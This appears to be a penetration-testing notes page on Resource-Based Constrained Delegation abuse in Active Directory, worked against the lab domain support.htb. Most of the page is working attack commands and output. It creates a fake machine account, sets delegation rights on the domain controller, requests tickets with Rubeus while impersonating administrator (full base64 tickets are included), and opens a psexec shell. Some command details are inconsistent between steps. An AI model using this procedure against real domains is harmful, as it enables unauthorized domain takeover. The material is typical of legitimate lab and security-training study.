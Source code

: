 ```yaml
---
description: Taking over a computer object and performing a S4U attack
---
```


# Resource Based Constrained Delegation

Resource Based Constrained Delegation can be exploited by adding a fake computer $FAKE-COMP01 to the domain, configuring it to act on behalf of the DC. This lets us request Kerberos tickets as $FAKE-COMP01 impersonating a domain admin. We then use Pass-the-Ticket to authenticate as admin and take over the domain by performing a S4U attack.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview" %}

### <mark style="color:yellow;">How does it work.</mark>

Resource-Based Constrained Delegation (RBCD) is a mechanism in Active Directory that allows a specific object to impersonate any user instead of a user impersonating a user. RBCD can granting computer objects impersonation rights. This is done by using `msDS-AllowedToActOnBehalfOfOtherIdentity`. Any user withpermissions (like `GenericAll` or `WriteDacl`) on a computer account can configure it.

### <mark style="color:yellow;">What is needed</mark>

<details>

<summary>Video of this attack</summary>

[https://www.youtube.com/watch?time\_continue=268\&v=RUbADHcBLKg\&embeds\_referring\_euri=https%3A%2F%2F0xdf.gitlab.io%2F\&source\_ve\_path=MzY4NDIsMjg2NjY](https://www.youtube.com/watch?time_continue=268\&v=RUbADHcBLKg\&embeds_referring_euri=https%3A%2F%2F0xdf.gitlab.io%2F\&source_ve_path=MzY4NDIsMjg2NjY)

</details>

{% stepper %}
{% step %}
**Code execution**

Code execution as a domain user belonging to Authenticated Users

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```
{% endstep %}

{% step %}
**ms-ds-machineaccountquota**

The ms-ds-machineaccountquota attribute needs to be higher than 0. This attribute controls the amount of computers that authenticated domain users can add to the domain.

```powershell
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC
```
{% endstep %}

{% step %}
**Need GenericAll or WriteDACL**

Our current user or a group that our user is a member of, needs to have WRITE privileges ( GenericAll , WriteDACL ) over a domain joined computer
{% endstep %}
{% endstepper %}

## Performing the S4U attack

{% hint style="info" %}
S4U (Service for User) is a Kerberos protocol extension that allows a service to impersonate a user to access other resources. A successful S4U attack involves exploiting vulnerabilities in this mechanism to gain unauthorized access to sensitive resources.
{% endhint %}

### <mark style="color:yellow;">Method1</mark>

Create a new computer account to abuse write privilege on the DC. We then set `msDS-AllowedToActOnBehalfOfOtherIdentity` to our account so we can impersonate as any user from to the DC. For this you need to import [Powermad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1).

```powershell
New-MachineAccount -MachineAccount Zen -Password $(ConvertTo-SecureString 'pass@123' -AsPlainText -Force)
```

We can then set `msDS-AllowedToActOnBehalfOfOtherIdentity` on our account

```powershell
Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount Zen$
```

And retrieve tickets with Rubeus

<pre class="language-powershell"><code class="lang-powershell"><strong>.\Rubeus.exe s4u /user:Zen$ /password:pass@123/domain:support.htb /impersonateuser:administrator /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /msdsspn:host/dc.support.htb /nowrap
</strong></code></pre>

<details>

<summary>Retrieved tickets</summary>

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxfQi/f3np
      EMZE+Bk4cMAc7F/DucdA/LIBYSg4fU7tKg3CuPHLEtVN2di3g0YrCUbB9b8lvTeg1vSU/wjmAbcqP6PK
      geFl4t1fwOZP16vxD6GbJ6xfGizXcN56zL5RN26HWREkQWM2nHmo119CZIeQnGGgnzFF6T4D58M1/7im
      eS2l4leCnzjffmoYSTl8vcQqAn7LANGrNBHxZv4vZEslmSpvXd0swUW96DaCHkAuy04Yxg7ADN4d0I4h
      NRE1/i6U+WGKmfEB5UnPJ57AGkcaMfpT7CJj4fb07ED3FdC9jns0p5dWDqZWVtyWzwPPmZDzaD66HtX7
      mHTq+1TURbs0TUKyKLTE35n2pC3CWQtxgYk7RDZ2WbCuEvJ1FQxYANdVt9z+mshafwwNqgtNy45IZdrb
      RBQBgnWCrjIY0nWVIIU6Tg4xEnhoPm+dVmaG/jLb213VbR2B9xv/QyHYoStpLOezsZRpHPb9gcjSYUha
      KTUbjI3WFsNrJkEx9pXDvlLB8guDfkUj1//AbwQDHft3guaECmnOHdV0vxcIkSqRel/R8BLhuXheioD1
      TC7ESRPRAe3KruckjaWq9hlhBB3aiAcx//gmfS7QCIfQ5OFryZHFdzzzWqCJfPrlqDg5xtYwG0qQ6dSS
      Ou1uJ0F0/b9rY23TIchhwmQFVTaKjeGL6FfbZRcfBgcXFjMtEtzMmYLyAUgdmsgL9Rjh2gosiQvYmxXF
      VUQC2t60oPJsmqUUL1wG6xE6JXf9XG6FmgHVRLMM8E+CxPQ7hTIS0PcPZIlT9f1fvtO9G/8rIJjoUKDB
      GG7wuLRXxxcuRmoWTTiiGDSWgBtOzmOfeK4RSFcZoX9CHKw/+M9bXLKbsLCTXpt8qHZb9u6Kb1jFd4bD
      40ZaF3ep+W9wMSW+MEQw8k9m4u4apBlGQyJDNSBfExXi24K2ro7amzVjMWJZjPLJgZJMKwlOgFzHplC5
      FSo4wbl288W34DZbGW85XZce9dsMSQGYFyYN33nmZxzRvkjxRU7cJ/hacC3EwGNDKbpqRMLhPSs86zgl
      gPk2ZwRZAgcc/q4baeVwJiSIZbh5Ru0p64gpvNZUG71umSlcROh2cJIipBWjilAzeoyTrrXdokx2sG3y
      6FWVnCbBMxICAvCNH1WrqLat4eLV7NGIF07ZLu5mg8bc8xX/q2PTBpyS2QUpx9+rPhDqB9WnOSP/jedo
      DUL0RsywRl6obAqerHdCSWvwt060xSwhYGATpa772oncMtSwOry2eknztoYJ6/N/ANFRZe7M+EW7k96N
      3DLuXJzcnPjLN+xdVKVTjGONa7v5f+7UJW2XqR3J12ue7cI2+cX/O328oWRuImzfaE1WA6yy4ao4zjm7
      8WIn3HjNwu736R2a7iqUrrag+mxFIGIc8lpk5M7Hs01GgbmroY5k+IbuhgZpTUgZSFazAEgqoQxzhk7N
      nnP13tA0Bx+tK0I8TtnMKy7cVSixj57rhaWHD0rgvZgPx6KNGljAJezy6dhxuxmhOJ8eo4HcMIHZoAMC
      AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQOoRFqAF1kc0B3FkPPCRj26ENGwtTVVBQ
      T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjQxMTEx
      MjE0NDAzWqYRGA8yMDI0MTExMjA3NDQwM1qnERgPMjAyNDExMTgyMTQ0MDNaqA0bC1NVUFBPUlQuSFRC
      qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==


[*] Action: S4U

[*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      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
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      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
[+] Ticket successfully imported!

```

</details>

Find the administrator ticket and echo it into `base64 -d` and save it as ticket.b64. Then use ticketconverter to a format impacket can use.

```bash
$ python ticketConverter.py ticket.kirbi ticket.ccache                                               
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

Finally we can login as administrator. Make sure the dc.domain.yzt is added to hosts.

```bash
KRB5CCNAME=ticket.ccache python psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

### <mark style="color:yellow;">Method 2</mark>

First create the fake computer and add it to the domain with [Powermad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1).

```powershell
PS C:\Users\support\Documents> New-MachineAccount -MachineAccount ZenFakeComputer -Password $(ConvertTo-SecureString 'pass@132' -AsPlainText -Force)
[+] Machine account ZenFakeComputer added

# Check it the new machine was added
PS C:\Users\support\Documents> Get-ADComputer -identity ZenFakeComputer
DistinguishedName : CN=ZenFakeComputer,CN=Computers,DC=support,DC=htb
DNSHostName       : ZenFakeComputer.support.htb
Enabled           : True
Name              : ZenFakeComputer
ObjectClass       : computer
ObjectGUID        : 2aa665e0-20e0-420d-ac5c-b59c7b8b3de9
SamAccountName    : ZenFakeComputer$
SID               : S-1-5-21-1677581083-3380853377-188903654-5602
UserPrincipalName :
```

Configure the DC to trust my fake computer by creating an ACL with its SID and assigning it to the DC.

```powershell
# Get the objectSID of the target computer (ZenFakeComputer)
$fakesid = Get-DomainComputer ZenFakeComputer | select -expand objectsid

# Create a new security descriptor that grants full control to the target computer
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"

# Convert the security descriptor to a byte array
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set the msds-allowedtoactonbehalfofotheridentity attribute on the target computer
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Check if it worked

```powershell
# Get the raw security descriptor of the domain controller
$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity

# Create a new security descriptor object from the raw bytes
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

# Access the discretionary access control list (DACL) of the security descriptor
$Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5602
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```

It shows an Access Control List that specifies the machines that can act on behalf of the DC with `SecurityIdentifier` of my fake computer with `AccesAllowed`.

First get the rc4\_hmac value.

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe hash /password:zenpass@123 /user:ZenFakeComp /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : zenpass@123
[*] Input username             : ZenFakeComp
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBZenFakeComp
[*]       rc4_hmac             : DFA8C3D737ACDD5F9AF9F4B60205E8D9
[*]       aes128_cts_hmac_sha1 : DBC10236F5F70D66F4BBF93819D3635B
[*]       aes256_cts_hmac_sha1 : 6AFC3C4155B027E5B43BE2B3B1636114C877C3B077808F25B3689A1925931D40
[*]       des_cbc_md5          : 8F20A2C8B90780C7
```

Next retrieve the tickets with Rubeus

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:ZenFakeComp$ /rc4:DFA8C3D737ACDD5F9AF9F4B60205E8D9 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
